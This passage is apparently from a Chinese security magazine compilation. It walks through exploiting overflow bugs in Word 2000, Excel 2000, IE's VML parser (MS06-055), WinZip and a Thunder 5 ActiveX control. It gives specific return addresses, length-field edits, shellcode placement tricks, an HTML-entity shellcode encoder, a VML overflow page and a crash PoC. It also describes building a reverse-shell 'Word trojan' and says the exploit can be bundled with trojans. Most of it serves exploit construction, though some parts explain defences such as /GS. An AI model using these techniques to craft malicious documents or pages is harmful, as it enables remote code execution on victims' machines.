保存后再打开该文件，结果发现还是可以执行宏代码，并没有发生什么异常。看来在 Word 程序里手动构造超长的宏名称是行不通了。既然如此，那就修改 test.doc 试试。打开 UltraEdit，将 test.doc 拖入编辑框，如图8所示。

我们的目的很明确，就是找出 test.doc 中含有 176 个“a”的宏名称究竟位于这些二进制数据的哪个位置。仔细看了两遍，发现该文档中共有 3 处保存了宏名称。其中，有两处紧连着，并且是 Unicode 形式给出的，分别为全小写和全大写，如图9所示。此外，下面还有一处，保存了完整的 ASCII 形式的宏名称，如图10所示。

根据漏洞公告，我们把宏名称增长几个“a”，保存后再打开 test.doc，还是出现了图6所示的宏提示框，但无论点击“取消宏”还是“启用宏”，都没有出现什么异常，而是弹出了下列提示框，如图12所示。

我选择继续增加“a”，但还是同样的结果，这可能是由于新增数据破坏了 doc 文件中其他数据引起的。唉，越来越不清楚了。直觉告诉我，一条漫长的道路就摆在面前——必须分析 doc 文件格式，然后寻求漏洞解法。后来事实证明，这个时候我离调试成功不太远了。

## 分析doc文件格式——小有收获

Word 2000 文件格式微软并没有公开，要彻底分析无疑有相当的难度。但这条路又不得不走，于是我顺理成章地在网上搜索，先后找到了 Word 6.0 和 Word 97 的 doc 文件格式介绍，同时也找到了一些研究人士的简单分析资料。通过这些资料，再结合 Word 2000 与 Word 97 的相似性进行分析，我对 doc 文件格式有了进一步的了解。以 Word 2000 生成的 doc 文件为例，这里简单谈谈。

我们平时见到的文档格式大致分两类：一类是标记型文档，如 HTML、XML、PDF 等；另一类是流式文档，如 doc。doc 文档是复合二进制文档，可以包含文字格式、图片、声音、动态图像、宏等多种格式信息数据，这些数据在 doc 文件中是以流（Stream）的形式存储的，也就是存储方式与数据具体格式无关。每个文件都以固定 8 字节 `D0 CF 11 E0 A1 B1 1A E1` 开头，并以 512 字节为数据的基本存储单位。这种复合信息数据的存储方式与磁盘文件的组织方式类似，因此 doc 文档又称为“文件中的文件系统”。大家可以从中对比，如图13所示。

对 doc 文件格式有了这样一个总体认识之后，我们来仔细分析一下 test.doc。这里给大家介绍一个工具——DFView.exe，这个工具是专门用来解析文件格式的，位于“vc目录\Common\Tools\”下。VC6 下面有这个工具，而 .net 下没有。为了使用方便，大家可以在桌面上设置该工具的快捷方式。使用 DFView.exe 需要注意的是它不能解析中文路径，因此大家最好把待解析的 doc 文件放在英文目录里。这里我用 DFView.exe 打开 `f:\test.doc`，如图14所示。

大家可以看到，这个工具把 test.doc 中的二进制数据按照存储（如 Macros）与流（Stream）的形式划分好了。把存储和流一个个展开，发现我们前面找到的 Unicode 小写形式的宏名称就在 1Table 这个流中，该流记录了多种格式信息，如图15所示。

但是这并没有带来什么实质性的进步。不要着急，我们再看看 WordDocument 这个流，按照 Word 97 的分析资料说明，WordDocument 以一个 FIB（File Information Block）数据结构开头，FIB 记录了复合文件中各种数据结构信息，如图16所示。

在该结构偏移 0x15A 处，记录了 1Table 流中存放的宏信息的位置偏移值，test.doc 中该偏移值是 0x180。于是我们在 1Table 流中偏移 0x180 的地方找到了 `FF 01`，也就是宏名称信息的“标记”，如图17所示。

当分析到宏名称信息的标记的时候，我想起了前段时间看到的一篇文章叫《寻找客户端漏洞的艺术》。这篇文章网上到处都可以找到，作者分析了 IE、Firefox、Outlook、MSN 等客户端程序解析图片文件时出现的溢出漏洞的共性。下面我们先来看看这些漏洞的共性，看了之后大家应该可以想到一些东西。

#### 对比同类漏洞模式——柳暗花明

前面所指的共性是指文件中信息存储的格式引起的。无论 JPEG、GIF、PNG 等图片格式还是 doc 文件格式，其数据流由很多段构成（例如宏名称信息就是一个段），而这些段的格式基本都是下面这一个模式：

```
标记 | 数据长度 | 数据


```

在客户端程序解析这些文件格式的时候会依据“标记”来确认段，并可能对“数据长度”进行一定的运算，再依据这些“数据长度”来处理随后紧跟的“数据”。以上提到的几个漏洞产生原因都是在对“数据长度”进行运算的时候没有进行长度确认而导致的。

举个例子。相信大家还记得 2004 年的 JPEG 溢出漏洞 MS04-028，JPEG 格式中的注释段（COM）由 `0xFFFE` 开始（标记）+2 字节的注释段字节数（数据长度）+注释（数据）构成。因为字节数这个数值包含了本身所占的 2 字节，所以 GDIPLUS.dll 在解析 JPEG 格式文件中的注释段时会把这个值减去 2，如果这个值设置成 0、1 就会产生整数溢出，从而造成后来的堆溢出漏洞。

回到我们这个 Word 漏洞，按照刚才那个格式来对比。其中，上面找到的 `FF 01` 是“标记”，那么“数据长度”呢？大家可以看到“Proj…”前面有两字节长度 `0x00C2`，这就是我们要找的“数据长度”，这个数值是包括了“Project.NewMacros.”之后的宏名称长度。在 `0x00C2` 后面，就是真正的宏名称了。通过对比同类漏洞的模式，我们知道了通过增加宏名称数据来造成溢出的方法是不正确的，而是应该将宏名称前面的“数据长度”值增大，Word 在按照改后的“数据长度”复制宏名称的时候发生了溢出。

好，现在基本清楚了该漏洞的原理，下面继续调试。

#### 坚持不懈——调试成功

将宏名称前面的“数据长度”由 `0x00C2` 增大为 `0x00D0`，保存了再打开 test.doc，结果发现还是出现了图12所示的提示框。头已经比较晕了，但是仍然不能放弃。

现在把“数据长度”改得更大一些，改为 `0x0350`，保存再打开 test.doc，点击“取消宏”后终于弹出了久违的异常对话框，如图18所示。

呵呵，有希望！看来可能是发生了堆栈溢出，因为如果是堆溢出的话，应该会提示内存不能为“write”。为了验证这一结论，我们使用调试器。平时我都习惯使用 SoftICE，在调试这个漏洞的过程中我发现其实 VC 也是漏洞调试的好工具，前提是机器上必须安装 VC。就利用图18弹出的异常对话框，点击“取消”，调出了 VC 调试器，如图19所示。

这个时候观察一下堆栈中的数据，在内存查看框中输入 ESP，回车，如图20所示。

看来宏名称的确被复制到了堆栈中，再观察 EBP（0012C2EC）指向的内存，如图21所示。

由上面两图可知，EBP 指向的内存位于宏名称后面，ESP 指向内存位于宏名称前面，因此明显可以判断发生的异常不是由于问题函数返回到错误地址产生的，而是在返回之前就发生了异常。在这种情况下，我们一般先覆盖 SEH 结构来尝试漏洞利用。这里就需要用到 SoftICE 了，因为 VC 调试器中不能查看 SEH 结构在堆栈中的位置。通过 SoftICE，发现 SEH 结构地址是 0x0012FFB0，与当前堆栈指针位置相距了 10000 多字节，复制这么多字节到堆栈中会覆盖掉堆栈中其他线程函数数据，经过测试，覆盖 SEH 果然是行不通的。那么现在尝试 JMP ESP 方式，没想到新的问题又不断出现。

#### 尝试利用——频遇难题

在图21中，我们其实已经将问题函数的返回地址址在堆栈中的位置找到了，就位于0x0012C2FC，对应的4字节数据就是图中的阴影部分。要使用 JMP ESP 的方式，就必须保证问题函数返回之前不能出现异常。那怎样才能做到呢？看来只能将“数据长度”减小，这里减小到0x0235（测试的实际最大值），保存后打开 test.doc，还是出现了异常对话框，点击“取消”，再次进入 VC 调试器，查看各寄存器，如图22所示。
图22

此时 ESP = 0x0012C328，而 EBP = 0x86019006，请大家对比观察图21中 EBP 指向内存的4字节数据。可以得出的结论是问题函数已经返回了，而这里的异常是函数返回之后出现的。函数返回的问题顺利解决了，下一步是判断问题函数为 _stdcall 还是 _cdecl 的调用约定。这个问题直接决定了在 0x0012C2F4 这个地址（函数返回前 EBP+8）上放 ShellCode，还是需要有若干字节的保留地址。检测的方式也很简单，将问题函数 EIP 改为 0xABABABAB，返回后在 VC 调试器中观察 ESP 即可。按照这种方法，发现返回后 ESP = 0x0012C328，其实也就是图22中看到的 ESP 值，EIP 保存在 0x0012C2F0，那么中间将会有 0x0012C328 - 0x0012C2F0 = 0x38 字节的保留地址。

OK，将 test.doc 中 EIP 保存位置添加 JMP ESP 指令地址 0x7FFA4512，在堆栈数据 0x0012C328 的对应处填写指令 EB FE，保存后再打开 test.doc，结果让人失望，仍然弹出了异常对话框。再将 0x7FFA4512 改为 Windows 2000 SP4 上特有的 JMP ESP 指令地址重测试，还是不行。经过一番分析，发现原来 EB FE 的位置其实超出了我们 0x0235 的宏名称极限长度。换句话说，JMP ESP 方式在本漏洞中还是行不通！

如果一个漏洞既不能用 JMP ESP 方式利用，也不能用覆盖 SEH 结构方式利用的话，大家还有什么办法吗？有的，而且是很原始的——将 EIP 直接填写为堆栈地址。

#### 反复调试——完美利用

将 test.doc 中 EIP 保存位置4字节数据改写为 0x0012C2F4，这个地址对于同一文件模板（如 test.doc，“a”的个数不同则该地址不同）在 Windows 2000 和 XP SP0 是不变的，在 XP SP1-SP2 中应该是 0x0013C2F4。然后在该位置后面4字节填写 EB FE，保存后打开 test.doc，呵呵，CPU 使用率为100%。成功了！如果大家想构造自己的 Word 木马，都可以通过 test.doc 这个模板来做了。

此外，由于宏名称长度限制在 0x0235 字节左右，ShellCode 必须采用 JMP BACK 的方式。下一个问题，ShellCode 怎么加到 doc 文件中去呢？我用 VC 写了两个小程序：readdoc 和 newdoc，readdoc 的功能是读取 doc 数据到指定文件中，而 newdoc 的作用是在 readdoc 读出的数据中加入 ShellCode，然后生成新的 doc 文件。这两个程序的实现都很简单，大家可以参考文章附带代码。至于 ShellCode 的编写，大家可以参考我前面的一些文章。写得很清楚了，只是在测试的时候我发现了一个问题：开始的时候用 sub esp,80H 来规划内存，但是每当后面调用 LoadLibraryA 和 GetProcAddress 这两个函数的时候，会使后面的指令全部变为无效指令（乱码），费了很大的功夫，结果发现用 sub esp,1000H 的时候问题就解决了。

最后，我和大家一起测试一下我自己制作的一个反弹端口的 Word 木马 suc_2ksp4.doc。先执行“NC -l -p 25”，再打开 suc_2ksp4.doc，结果如图23所示。
图23

测试成功！这是在 Windows 2000 SP4 下的测试，同时我还做了一个针对 Windows XP SP2+Word 2000 的版本 suc_xpsp2.doc，大家如果有兴趣也可以测试一下。

至此为止，这个漏洞就给大家分析完了，它的应用范围是比较广的，可以与木马绑定相结合。

#### 小结

本文中，我和大家一起回顾了我分析和利用 Word 溢出漏洞的经过，希望对大家能有所帮助。其实这个漏洞涉及了很多的知识点和调试技巧，再次说明了只有把基础打牢，才可能解决问题的道理。同时，也照常欢迎大家和我交流。

> 【本文涉及的代码（程序），请见随书光盘】

## Excel溢出漏洞分析+利用

文／图 曹军／danguai27 何永强

写文章《Word溢出漏洞分析与利用》时，我就想，既然 Word 都有漏洞，那么 Access、Excel 等其他 Office 软件是否也存在漏洞呢？果然，3月中旬接连出现了几个关于 Excel 的“高危”级漏洞。我对这几个漏洞进行了一番分析，发现它们的确很难利用。于是想到了和朋友一起从研究早些时候的一个 Excel 溢出漏洞入手，写下了本文。

#### 漏洞起因

漏洞公告如图1所示。
通过漏洞公告我们不能得到什么有用的信息，但在 Google 上耐心地搜索了一下，发现网上已经有了此漏洞的简单分析。原来是 Excel 在处理表名称长度的时候存在堆栈溢出漏洞，该漏洞针对 Microsoft Excel 2000 SP3 及以下版本。

但经过仔细琢磨，我发现该分析文章写得不详细，也不太准确，同时没有提供 Exploit。根据以往漏洞调试经验，下面我们还是先从了解 Excel 文件格式，进而涉及漏洞的分析。

## Excel文件格式简介

Excel 的文件格式和 Word 一样同属于复合型文档，每个文件都是以固定8字节“D0 CF 11 E0 A1 B1 1A E1”开头，并以512字节为数据的基本存储单位，以低字节优先存储的。文件数据组成结构分为：目录、索引和单元块。单元块中的数据域存储格式是：标记（Code）｜数据长度（Length）｜数据（Name）。本文推荐一款 XLS 文件的按格式分块的查看工具 xlspure.exe，如图2所示。
以图2中的第一个数据域（均以十六进制表示）为例，Code 是 09 08，Length 为 10，Name 为 00 06 05 00 17，在文件中相应的位置如图3所示。
#### 漏洞调试与分析

新建一个 Excel 文档，用 UltraEdit32 打开，根据漏洞公告，找到 Sheet 标志处，如图4所示。
## 分析篇

其中，0x0085 是标记，0x000E 是数据域的总长度，表名称长度为 0x0006，我们要修改的就是表名称长度。经过测试发现，此漏洞与 XLS 文件名长度有关。考虑到字节数要求，文件名取为“我爱北京天安门天安门上太阳升伟大领袖毛主席.XLS”。如果该长度在22-44字节之间，当其长度修改为 0x0FFF 左右时就会触发整数溢出，进而触发堆栈溢出漏洞。在 Windows 2000 SP4+VC6 环境下进行调试，如图5所示。

```asm
:30034F4F 3BF7         cmp esi, edi
:30034F51 897DFC       mov dword ptr [ebp-04], edi
:30034F54 742D         je 30034F83
:30034F56 8D85FCFDFFFF lea eax, dword ptr [ebp+FFFFFDFC]
:30034F5C 8945FC       mov dword ptr [ebp-04], eax
:30034F5F 0FB706       movzx eax, word ptr [esi]
...
:30034F6E 50           push eax
:30034F6F E864AEFDF    call MSO9.memmove

调用 MSO9.memmove 拷贝字符串，由于长度错误，而导致覆盖函数返回地址。


```
图5

出现了图6所示的异常提示框，这和我们以往调试堆栈溢出漏洞时出现的情况差不多。
图6

接下来我们来看看异常提示中的 0x01907fff 在 XLS 文件中的位置，这一步是关键。在 Excel 文档中搜索到 FF 7F 90 01，如图7所示。
图7

出现了异常情况，我们再来分析漏洞起因。默认情况下，表名称长度是无符号整数，但当我们构造一个负数，memcpy 函数会把长度值转换成正数来拷贝表名称到堆栈中，从而导致溢出的产生。问题代码通过 IDA Pro 对 EXCEL.exe 反汇编后得到。

```asm
:3003FBD3 8B400C       mov eax, dword ptr [eax+0C]
:3003FBD6 FF7008       push [eax+08]
:3003FBD9 8D8560FCFFFF lea eax, dword ptr [ebp+FFFFFC60]
...
:30034F3E 55           push ebp
:30034F3F 8BEC         mov ebp, esp
:30034F41 81EC04020000 sub esp, 00000204

通过 Sheet1 表长度计算得到的拷贝长度，因为整数溢出造成这个值错误。


```

一般情况下会搜索到好几处 FF 7F 90 01，通过不同的微修改，我们可以最终确定在图7中的焦点位置。进一步分析，这个位置储存了 Excel 的字体属性，而 0x019 表示“Font Weight”。要对该漏洞进行利用的话，可以将该值修改为我们可控制的 ShellCode 地址。

#### 漏洞利用

- 1. 通过 JMP ESP 跳转到 ShellCode

堆栈溢出漏洞最直接的利用方式就是覆盖 EIP，但正如调试 Word 溢出漏洞的情况一样，有两个问题需要注意：

- 1）通用 JMP ESP 指令地址 0x7FFA4512，在这个进程中不能被识别，因此只能使用与系统版本相关的 JMP ESP 指令地址。  
- 2）由于导致溢出漏洞的函数的调用约定是 stdcall，因此 EIP 与 ShellCode 之间应该有一些保留字节。

解决了上述两个问题，填充我们的 ShellCode 进行测试，结果发现会破坏后面的字体属性数据结构，看来覆盖 EIP 的方式行不通。

- 2. 覆盖 SEH 结构

此方式也在调试 Word 溢出漏洞的时候论证过行不通，因为相关的 SEH 结构保存在堆栈中距离溢出点上万字节的地方，大面积的数据覆盖可能引发其他异常。

- 3. 直接填写 ShellCode 地址

此方式对付这类漏洞中相对最有效。在调试 Word 溢出漏洞时我就是直接用堆栈中溢出点的下4字节地址来填写 EIP，然后紧跟 ShellCode。在这个 Excel 溢出漏洞中，ShellCode 先为 EB FE，测试成功。但是后来发现文件中 FF 7F 90 01 之后可供填充 ShellCode 的空间小得可怜，很难容下功能比较复杂的 ShellCode。

针对上述问题，我发现 ShellCode 还可以放在注释里。因为异常发生的时候，正好注释还在堆栈中，如图8所示。
Excel 注释的添加方法大家一看就明白，如图9所示。
加上注释后，我们把 EIP 的地址填充为 0x0012B9D0，该地址是注释在堆栈中的地址。开头还是改为最简单的 ShellCode——EB FE，测试成功！但好景又不长，当注释的长度大于40时，却不能触发溢出了，所以怎么增大注释，是一个必须解决的问题。

这里为大家献上一个小工具，可以很方便地操作 Excel 数据库，大小只有400多KB，如图10所示。
经过分析发现可以增加整个 Excel 文档的块数，来解决增大注释问题，思路如下。

- 1）修改 Excel 文档开头512字节中表示数据块数的两个标记。  
- 2）修改数据块索引。  
- 3）修改注释总长度。  
- 4）前面3步 OK 之后，在新增加的注释部分加上我们的 ShellCode 就可以了。

上述步骤在我的机器上测试完全通过，光盘中分别提供生成并执行 cmd.exe 的样本 .xls 文件，一个针对 Windows 2000 SP4，另一个针对 XP SP2。

#### 总结

本文中，我们讨论了 Excel 表名称溢出漏洞。从介绍漏洞起因到漏洞的调试分析，最终给出合理的漏洞利用方案。这个过程中除了添加注释需要用到 Excel 自身的知识外，其余的技术在以前的漏洞分析文章中基本都有涉及。希望这篇文章对初学朋友有所帮助，文中有什么不妥的地方也希望大家多多交流。

> 【本文涉及的代码（程序），请见随书光盘】

### 漏洞挖掘

#### MS06-055
撰文/图 failwest

#### 漏洞分析及利用

我们可以在微软的安全技术网页或者 US-CERT 上得到一些关于这个漏洞的简要描述。微软的 IE5.0 以上版本会支持一种向量标记语言（VML）来绘制图形。IE 在解析畸形的 VML 的时候会产生堆栈溢出的错误。如果利用者精心构造一个含有这样畸形的 VML 语句的网页，并骗取用户点击这样的网页，就可以利用 IE 在用户的机器上执行任意代码。

参考这些简要的描述和“nop”公布的攻击代码，我们可以实际动手调试一下这个漏洞。引起栈溢出的是 IE 的核心组件 vgx.dll，这个文件在 `C:\Program Files\Common Files\Microsoft Shared\VGX` 和 `C:\WINDOWS\system32\dllcache` 两个目录下，如果你的机器上已经打过 MS06-055 的补丁的话，你可以到 `C:\Windows\$NtUninstallKB925486$` 找到原来的有漏洞的文件。

我们首先用 IDA 把它反汇编，获得一个比较全局的把握。发生栈溢出的函数是 `_IE5_SHADETYPE_TEXT::Text(unsigned short const *, int)`，在这个函数初始化的地方有一条指令：

```asm
sub esp,214h
```

它开辟了一个 0x214 的栈空间。在 Text() 函数执行的过程中，会两次调用另一个函数 Ptok()。Ptok() 会把 HTML 页面中 VML 描述里一个域中的字符串按照 Unicode 的形式复制到这个栈空间中。

下面我们用一个实际的例子来说明这个溢出问题。我的调试机器是 Windows XP SP2。首先创建一个 HTML 文件，其内容如下：

```html
<html xmlns:v="urn:schemas-microsoft-com:vml">
<head>
<title>failwest</title>
```

```html
<style>
<!-- v\:* { behavior: url(#default#VML); } -->
</style>
</head>
<body>
<v:rect style="width:444pt;height:444pt" fillcolor="black">
<v:fill method="QQQQ"/>
</v:rect>
</body>
</html>
```

这是一个含有 VML 描述的页面。保存后用 IE 打开，应该可以看到一个很大的黑色正方形。这就是 VML 语言相对于图片格式的好处——只要几个字节描述一下形状、颜色、坐标信息等属性，就能绘制出精确的图形。

讨论 VML 技术不是本文的重点，我们继续讨论这里的溢出问题。用 OllyDbg 连接到现在的 IE 进程上，在 Text() 函数开始的地方下断点。我们可以用 IDA 辅助查找到 Text() 函数的入口地址（如 0x6FF3ED46），直接用组合键 Ctrl+G 跳到这个位置，按 F2 下断点。

刷新页面，这时候 OllyDbg 会在函数入口处断下进程，用 F8 单步执行，一直到 `6FF3ED92 call vgx.6FF3ECE6`。这时注意栈中的状态，就在离栈顶几个字节的地方，有4个 Unicode 形式的字符“Q”被复制到栈空间中了。原来这个 Call 就是在调用 Ptok()，VML 描述中 `<v:fill method="QQQQ"/>` 里双引号之间的 ASCII 将被转换为 Unicode 复制入 Text() 函数的局部变量。

```text
0012BE70: Unicode字符串起址
0012C070: 存放Security Cookie
0012C074: EBP
0012C078: return address
0012C084: 返回后的ESP
```

很明显，实际为 Unicode 字符串分配的可使用空间是 0x200，也就是十进制的512个字节，换成 Unicode 就是256个字符，减去字符串结尾的两个字节的 0，栈中能够接受的最多的字符就是255个。

这是一个比较典型的栈溢出。如果我们在页面中 VML 对应的域中包含超过255个字母的话，经过 Ptok() 函数的复制，栈中的函数返回信息就会被覆盖。如果页面中包含有 ShellCode 的话，那么点击一个含有这样页面的链接时，你的 IE 可能就会悄无声息地执行了攻击者想要的代码，从恶作剧的弹出对话框，到开后门、下木马、格式化硬盘，在技术上都没有什么质的区别。

这里大家要注意一点，如果你要制作自己的 ShellCode 来利用这个漏洞，还需要解决一个问题。Ptok() 在把字符从 html 中复制到栈空间的时候会进行 Unicode 转换，这将破坏我们的 ShellCode！然而在解析 html 的时候，是有一些转义字符的。比如“&#37008;”，将会按照十进制数字解释后面的 37008，换成十六进制就是 0x9090，所以 html 里这样一个字符串“&#37008;”将以 0x9090 的形式出现在栈空间。

在“nop”的攻击代码中，给出了一个用来处理 ShellCode 的函数，这里一并给出，大家可以把自己的 ShellCode 用这个函数处理后放在页面里去实验。函数代码如下：

```c
void convert2ncr(unsigned char * buf, int size)
{
    int i=0;
    unsigned int ncr = 0;
    for(i=0; i<size; i+=2)//read a word
    {
        ncr = (buf[i+1] << 8) + buf[i];
        fprintf(fp, "&#%d;", ncr);
    }
}
```

### 认识Windows XP SP2的安全编译选项

经过上面的分析，即使是一个刚学溢出的新手也能在 Windows 2000 上成功实现攻击了；但是在 Windows XP SP2 系统中，vgx.dll 在编译时使用了 /GS（Buffer Security Check）选项，因此要成功利用是非常困难的。下面我们就来看看这个编译选项在机器码里做了些什么，到底是怎样保护程序不被溢出攻击的。

用 IDA 反汇编 vgx.dll，其 Text() 函数代码如下：

```asm
_IES_SHADETYPE_TEXT::Text(unsigned short const *, int)

.text:6FF3ED46 ; _IES_SHADETYPE_TEXT::Text(unsigned short const *, int)
.text:6FF3ED46                 mov     edi, edi
.text:6FF3ED48                 push    ebp
.text:6FF3ED49                 mov     ebp, esp
.text:6FF3ED4B                 sub     esp, 214h
.text:6FF3ED51                 mov     eax, ___security_cookie
.text:6FF3ED56                 and     dword ptr [ecx], 0
.text:6FF3ED59                 mov     [ebp+4], eax
.text:6FF3ED5C                 mov     eax, [ebp+arg_0]
...
.text:6FF3ED92                 call    _IES_SHADETYPE_TEXT::TOKENS::Ptok
.text:6FF3ED97                 test    eax, eax
...
.text:6FF3EDB1                 lea     ecx, [ebp+var_210]
.text:6FF3EDB7                 call    _IES_SHADETYPE_TEXT::TOKENS::Ptok
...
.text:6FF3EDDF                 mov     ecx, [ebp+4]
.text:6FF3EDE2                 call    __security_check_cookie(x)
.text:6FF3EDE7                 leave
.text:6FF3EDE8                 retn    8


```

大家可能已经注意到了，在函数开始的地方有这样一条指令：

`.text:6FF3ED51 mov eax, ___security_cookie`

IDA 直接把内存地址 0x6FF44160 翻译成了“___security_cookie”，这个“cookie”的值随后被放在了 EBP 头顶上的位置 [EBP+4]：

`.text:6FF3ED59 mov [ebp+4], eax`

在函数返回前的最后一个调用：

`.text:6FF3EDE2 call __security_check_cookie(x)`

就是用来检查 EBP 前一个 DWORD 的值是否被修改过的。如果这个值和开始时存入的 cookie 不一样（被覆盖），则进入异常处理，正常的函数返回就得不到执行。而要覆盖返回地址，就必须先覆盖这个存放 cookie 的地方！经过动态调试，这个 cookie 的地址在 vgx 的数据段，每次启动 IE 进程的时候都不一样，我们几乎不可能在 ShellCode 中预测到这个 cookie 的值。

通过这样一个保护机制，我们在 Windows XP SP2 上不论怎么精确地覆盖 ESP 这些地方都没有用，因为不执行 ret，我们的 ShellCode 就得不到执行。如果你有了什么突破这种保护机制的思路，请联系我 failwest@gamil.com，或者参与黑客防线论坛的讨论，我将非常高兴能与你一起讨论！

**WTF：**随着 Zip 漏洞的公布，针对国内漏洞研究比较浮躁的讨论也随之出现。估计 Zip 漏洞的公布者自己也没有成功利用，就急匆匆地公布了 Exp 出来，但自己却以一种 Exp 能成功的姿态进行漏洞说明。联想到之前有若干所谓 PPT 漏洞 PoC 出现也是这种情况，实在是让人不知说什么好……

## WinZip溢出漏洞分析+利用
文/图 H.S.T

压缩软件漏洞在今年备受关注，尤其是 7 月份流行的 WinRAR.LZH 格式文件名解析漏洞，这是一个典型的堆栈溢出漏洞。目前网上已有针对该漏洞的 Exp……今天我们不谈论 WinRAR，讲讲 WinZip 漏洞。11 月中旬，某国外专业漏洞站点公布了 WinZip 溢出漏洞信息以及测试 Exp……

该 Exp 使用 GNU 下的 C 编写。若在 Windows 下使用，需要改写文件读写和命令行参数处理等部分（如 open/close/read/write 与 fopen/fclose/fread/fwrite，以及 getopt_long 的替代）。

```c
/* prdelka */
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <getopt.h>

#define NOPSIZE 999999


```

> 图1

#### 漏洞信息的了解及 Exp 的修改

该漏洞没有专门的漏洞公告，几乎所有信息都在 Exp 中提供。Exp 指出这是一个堆栈溢出漏洞，由 WZFILVW.OCX 中类似 FileView 功能的函数引起，且触发时需要结合 IE。

- 1. 安装 CygWin，在 Windows 环境下模拟 GNU 编译环境。  
- 2. 读懂 Exp 代码，修改为 Windows 下的 C/C++ 代码。

修改后编译测试，生成用于触发漏洞的文件（如 h1.html 与 i2.bmp）。测试中 IE 直接挂掉，因此需结合调试器进一步分析；文中提到使用 WinDbg，并查看 OCX 编译器版本（VC6），基本可不考虑 /GS 和 /SAFESEH。
图2

#### 调试分析过程

打开 IE，同时打开 WinDbg，在“File ---> Attach to a process”中选择 IExplore。如果同时开启了多个 IE 进程，则注意根据进程 ID 来选择。WinDbg 挂接到 IE 进程后，F5 或运行 G 命令让程序直接运行，以使 IE 处于可操作状态，然后将上面的 h1.html 拖入 IE，这时程序在下列指令断了下来，如图3所示。
图3

显然是地址访问而非函数返回后出现的异常，其中 0x41414141 是我们在 h1.html 中填充的数据。输入命令 `d esp`，如图4所示。
图4

此时文件数据“AAAA...”并没在堆栈中代码可控制的位置，我们不知道该如何修改数据。继续 F5 执行，程序又在如下指令停了下来。
图5

显然是代码再次出现异常后停下来了，而地址 0x67676767 是我们文件中可控制的（原本生成的时候是“EEEE”，为了节省版面，0x67676767 是我后期调试时改的，这里直接用了）。这里大家可能还不是很明白，我们继续分析就清楚了。关掉 WinDbg 后再次打开 IE 和 WinDbg，重复上面的操作到图4所示的状态，输入命令 `d fs:0`，得出线程相关的结构化异常处理（SEH）节点位于 0x49890 处，输入命令 `d 49890`，如图6所示。
图6

显然当前的 SEH 结构我们不能控制，但得到了上级 SEH 节点位置 0x49e78。输入命令 `d 49e78` 后可以看出第 2 个 SEH 节点结构是可以控制的。第 2 个 SEH 结构中的处理代码地址就是图6中 0xffffffff 前面的 4 个字节，也就是后面改为 0x67676767 的那 4 个字节。现在问题基本理清楚了，由于 SEH 链中最底层的异常处理过程中再次出现了异常，只能抛给上一级 SEH 节点处理，而上一级 SEH 节点结构又恰好是我们能控制的，所以感觉可能执行任意代码。如果你对 SEH 不清楚，建议好好读读《SEH in ASM》这篇文章。

至于如何在文件中找到 0xffffffff 前面那 4 个字节，大家可以参照以前讲过的循环构造 1234567890...ABCDE... 这样的方法，这里不多啰嗦了。

接下来，就是修改 0x00049e7c 这 4 字节地址了。由于没寄存器指向 ShellCode 或前面填充的 9090 这样的 NOP 数据，我们只能用 ShellCode 的内存地址直接覆盖了。先测试在调试状态下修改，输入命令 `S 0 Lffffffff 90 90 48 40 f5`，这是 ShellCode 开始的几字节，找到了 ShellCode 地址，如图7所示。
图7

用该地址改写 0x00049e7c 上的 4 个字节，如图8所示。写后，F5 运行，ShellCode 果然执行，并开放了 4444 端口，如图9和图10所示。
图8
图9
图10

上面只是调试状态下的修改内存，接下来我们对文件数据直接修改，对应的 4 个字节在 h1.html 中偏移 0x1A4 开始的 4 个字节，修改为 ShellCode 的内存地址 0x02c2423e，如图11所示。
图11
图12

保存后，直接双击打开，结果还是 IE 挂掉！没办法，再次调试，在第一次异常停下后，输入命令 `d 49e78`，如图12所示。高位的 2 个字节居然被程序自己修改了！后来几经测试分析，发现当最高字节为 02、03 这样的小数据时，如果次高字节大于 0x80，则程序会将这两个字节修改为 0x453f，就像图12中显示的那样。

绝对地址也行不通。这种情况下，我们很容易想到以前网页木马的方法——“暴力扩充填写内存”。但实践证明，这一点也是行不通的。原因有二：一是内存扩充需要使用 JavaScript 代码，而漏洞中 ActiveX 函数使用的是 VBScript。同一个 HTML 文件中，如果先声明了脚本语言是 JavaScript，那后面的 VBScript 将不被解析。二是如果使用 VBScript“暴力申请内存”的话，实现起来很困难，如果有成功者，还请多指教。总之一句话，该漏洞的实际利用是很困难的，甚至可以说几乎不可能。同时，最近的 Windows 补丁更新以后，我测试发现该漏洞好像已经被彻底修补了，尽管 MS 没有详细说明，大家可以测试一下。当然，本文的分析比较粗略，希望对初学的朋友有所帮助。文中难免有不当之处，还请各位多多指出。

#### 漏洞利用结论和一点想法

很明显，程序是做了限制的，要利用该漏洞的话，不仅不能用跳转指令地址，连填写 ShellCode 也……

## 迅雷5远程拒绝服务漏洞0Day分析

文/图 failwest
近一段时间，除了 QQ 0Day 外，迅雷爆出的 Crash IE 漏洞也比较出名。虽然这个漏洞不好利用，但是抱着学习技术、积攒人品的态度，这里还是在 POC 的基础上给出一些漏洞细节的分析。知其然还要知其所以然，知其所以然后还要知其所以之所以然……正是这种永无止境的探索精神激励着我们不断进步……

该漏洞函数存在于迅雷（5.5.2.252）安装路径下 ComDlls 目录下的 ThunderAgent_005.dll 中；迅雷 5.5.3.264（2006年12月最新版）受影响的 DLL 变成了 ThunderAgent_007.dll，其他版本可能也受影响。这里我们以 ThunderAgent_005.dll 为例进行说明。用 IDA 反汇编，位于 `.text:1000124B` 和 `.text:10001D68` 处的函数……

就是引起 IE 崩溃的函数。在随文资料中，我给出了漏洞文件、经过初步标注的 IDB 文件以及这两个函数的反汇编代码，大家可以自己研究一下。

安装迅雷，查看版本，查看漏洞文件，查看注册表中 ActiveX 的注册情况等实验环境的准备就不细说了。我们直接点击附件中给出的 POC，其中的 GetTaskInfoStruct 函数调用崩溃示意代码如下。

```html
<html>
<head>
<script>
function POC_test_fun()
{
    test.GetTaskInfoStruct(4);
}
</script>
</head>
<OBJECT ID="rlcst" CLASSID="CLSID:485463B7-8FB2-4B3B-B29B-8B919B0EACCE"></OBJECT>
<script>javascript: POC_test_fun();</script>
</html>
```

```asm
.text:10001E32    call    ds:CloseHandle
......
.text:10001E39    xor     eax, eax
.text:10001E3B    pop     ebx
.text:10001E3C    pop     edi
.text:10001E3D    leave
.text:10001E3E    retn    8
endp


```

这个 POC 非常简单，就是在网页里 Call 漏洞函数，点击这个 HTML 后会发现 IE 提示加载项出错，然后崩溃了，如下图所示。
